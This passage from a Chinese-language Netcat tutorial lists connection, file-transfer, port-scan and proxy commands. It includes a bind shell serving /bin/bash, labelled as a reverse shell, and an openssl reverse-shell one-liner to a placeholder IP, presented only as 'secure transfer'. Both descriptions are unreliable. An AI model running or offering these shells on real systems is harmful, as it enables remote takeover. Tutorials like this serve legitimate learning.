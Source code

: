    在另一台机器上与其进行连接：
   ```bash
   nc <hostname> <port>
   ```

2. **文件传输：**
   使用 Netcat 可以在两台计算机之间传输文件。在发送端运行 `nc` 命令，而在接收端使用 `nc` 命令监听端口并保存传输的数据，如下所示：

   发送文件：
   ```bash
   nc -w 3 <receiver_ip> <port> < file_to_send
   ```

   接收文件：
   ```bash
   nc -l <port> > received_file
   ```

3. **反向 shell：**
   使用 Netcat 可以创建反向 shell 连接，允许你在远程主机上执行命令，如下所示：

   在目标主机上启动监听模式：
   ```bash
   nc -l -p <port> -e /bin/bash
   ```

   在攻击机上与目标主机建立连接：
   ```bash
   nc <target_ip> <port>
   ```

4. **端口扫描：**
   Netcat 可以用于进行基本的端口扫描，以检查目标主机上的哪些端口是开放的，如下所示：

   扫描前 1000 个端口：
   ```bash
   nc -zv <hostname> 1-1000
   ```

5. **代理和端口转发：**
   Netcat 可以用于创建简单的代理服务器或端口转发，如下所示：

   创建代理服务器：
   ```bash
   nc -l -p <port_to_listen> -c "nc <destination_host> <destination_port>"
   ```

   端口转发：
   ```bash
   nc -l -p <local_port> -c "nc <destination_host> <destination_port>"
   ```

6. **使用 SSL/TLS：**
   可以使用 `openssl` 命令来创建安全的加密连接，以保护数据的传输。例如：
   ```bash
   mkfifo /tmp/ncpipe && /bin/sh -i < /tmp/ncpipe 2>&1 | openssl s_client -quiet -connect <your_ip>:<your_port> > /tmp/ncpipe; rm /tmp/ncpipe
   ```

请谨慎使用 Netcat，确保你了解其功能和用途，以避免滥用或造成安全风险。不同的情况可能需要不同的选项和用法，建议在实际使用之前查阅官方文档和相关资源。
